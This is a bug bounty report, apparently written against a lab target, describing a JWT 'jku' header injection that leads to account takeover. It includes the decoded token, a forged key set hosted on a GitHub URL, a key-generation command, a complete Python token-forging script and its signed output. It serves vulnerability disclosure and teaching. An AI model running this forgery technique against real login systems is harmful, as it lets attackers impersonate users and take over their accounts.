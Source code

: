 [This is an extended version of the actual report that I've submitted in the HackerOne Bug Bounty 2024]

### **Bug Bounty Report**

---

#### **Report Title:**  
JWT Manipulation Vulnerability Leading to Account Takeover  

---

#### **Report Description:**  
I discovered a critical vulnerability in your authentication mechanism that allows an attacker to impersonate other users by manipulating the JSON Web Token (JWT). Specifically, the issue arises due to improper validation of the JWT's signature or key, which enables an attacker to craft a valid token and use it to log in as another user.

Steps to reproduce:  
1. Obtain the public JWK (JSON Web Key) from the application's endpoint at `http://138.197.14.171:31281/.well-known/jwks.json`.  
2. Use the JWK to craft a malicious JWT with the desired payload, such as changing the `username` and `id`.  
3. Sign the JWT using the own generated private key (if exposed) or bypass signature verification (if the application does not validate the signature).  
4. Replace the token in the browser's cookies.  
5. Reload the application to gain unauthorized access as the targeted user.

**Step By Step Process:**
1. I created an account, logged in, found a JWT cookie, decoded it, and found a URL in the `jku` parameter. Sample decode data (header + payload): ```{
  "alg": "RS256",
  "typ": "JWT",
  "kid": "c288afa6-4e05-4981-b976-b0a3460b2450",
  "jku": "http://127.0.0.1:1337/.well-known/jwks.json"
}{
  "id": 10,
  "username": "576i1",
  "iat": 1731733918
}```
2. Replaced the localhost IP with the public IP:PORT of the machine, sent a get request, and got something like this: ```{
  "keys": [
    {
      "alg": "RS256",
      "kty": "RSA",
      "use": "sig",
      "e": "AQAB",
      "n": "ALLBcsvRXr2X4ja7Th/XQa9sHYvqP6nAycbagzJSf1R55tfg/HgCDHxZ5DyzWHABmf5nmiG57ykqfdCFgKQe1XdNnZ2Aji0roY2a3u8YaSE1JnxLUpuIHz4Uld2by/+j0oPY/DuWVANxaY0iyBaVEOJKg4JzCTaG+BMPQiHZ1bJk/gSs4w3v/+95K4/ZKfaZQWrxdcEG4r0hk/YracSwvzuE11Z7u7X16Kp7MhKyWOoJlh7Q7CtCkJBmdXCCrUx7ONIWgG+a0HNQjIJCdGrHQiih3nQTGefCxhvEkfQwPTR5xSd7O0d8mEKfO8BARnzUBCh4ozcRowVeov3Y8plOAK8=",
      "kid": "c288afa6-4e05-4981-b976-b0a3460b2450"
    }
  ]
}```
3. Used this command to create my own jku file `mkkey jwk rsa --kid "c288afa6-4e05-4981-b976-b0a3460b2450" --alg "RS256" --use "sig" > jwk_with_kid.json`. Here the `kid`, `alg`, and `use` keys are the same as the target machine's jku file.
4. Created my own jku file with same formatting as the target machine's one with same `kid`, `alg`, and `use`, except the `e` and `n` value.
5. Hosted the jku file on this repo inside the `.well-known` folder.
6. Generated my fake JWT cookie using the Python script below. Guessed the user id and username from reviews found at `http://138.197.14.171:31281/reviews`.
7. Changed the cookie value with my fake cookie in the browser, refreshed the current webpage at `/dashboard`, and I'm logged in as another user!

Python script I used to generate the fake JWT token:  
```py
import jwt
import json
from jwcrypto import jwk

# Load the JWK with `kid` and `private` key
with open("jwk_with_kid.json", "r") as file:
    jwk_data = json.load(file)

# Extract relevant parts of the JWK
private_jwk = jwk.JWK.from_json(json.dumps(jwk_data["secret"]["jwk"]))
public_jwk = jwk.JWK.from_json(json.dumps(jwk_data["public"]["jwk"]))
kid = jwk_data["public"]["jwk"]["kid"]

# Define the header and payload
header = {
    "alg": "RS256",  # Algorithm
    "typ": "JWT",    # Type
    "kid": kid,       # Key ID
    "jku": "https://raw.githubusercontent.com/MS-Jahan/jwt-poc/refs/heads/main/.well-known/jwks.json"
}

payload = {
    "id": 1,
    "username": "dihan",
    "iat": 1731728697  # Issued At (UNIX Timestamp)
}

# Sign the JWT using the private key
private_key = private_jwk.export_to_pem(private_key=True, password=None).decode()
token = jwt.encode(payload, private_key, algorithm="RS256", headers=header)

# Output the signed JWT
print("Generated JWT:")
print(token)

# Verify the token using the public key
public_key = public_jwk.export_to_pem().decode()
try:
    decoded = jwt.decode(token, public_key, algorithms=["RS256"])
    print("\nDecoded Payload:")
    print(decoded)
except jwt.ExpiredSignatureError:
    print("Token has expired.")
except jwt.InvalidTokenError as e:
    print(f"Invalid Token: {e}")

```
Output:
```
Generated JWT:
eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9NUy1KYWhhbi9qd3QtcG9jL3JlZnMvaGVhZHMvbWFpbi8ud2VsbC1rbm93bi9qd2tzLmpzb24iLCJraWQiOiJjMjg4YWZhNi00ZTA1LTQ5ODEtYjk3Ni1iMGEzNDYwYjI0NTAiLCJ0eXAiOiJKV1QifQ.eyJpZCI6MSwidXNlcm5hbWUiOiJkaWhhbiIsImlhdCI6MTczMTcyODY5N30.ayTDiqTVYsmnpnVcKskbDHmkE9lDxGPbcw1QX9pcekqwu7M9qEuJa851pFUGagKgMdEylK1wejw32qudkRoWt5D2xm8567XUsQvNVUDuYQnGqnTBryVMeaR1ceeDwn1YELoRdurVZCQR_GOohbio2JJSUghbgnfdUpvlv9zLJl8X27Fgwpm8JnjnWGJvu-1iTmirpINrDUvEGpCqZT9zSYh-dFugpzXO45HeoT577jYUwG9YMQB6iW3yD4GtddAhTZOZCAZjPIJ5q-Of4QC9xup6mIt8pRAhsy7_NNd2zUUcGXcOLHrvujBWWm08feW0bsGim_pmzvZiTBtFYun4-A

Decoded Payload:
{'id': 1, 'username': 'dihan', 'iat': 1731728697}```
```

---

#### **Impact:**  
This vulnerability allows for:  
- Unauthorized access to any user account.  
- Escalation of privileges, such as accessing admin-only areas.  
- Potential data theft, modification, or deletion.  
- Full control of the application in some cases.

---
##### POC Video Link
https://youtu.be/2zpln4--qmo

#### **Severity:**  
**P1 - Critical**  
This is a critical security flaw as it enables complete account takeover and potential administrative access, violating user trust and system integrity.




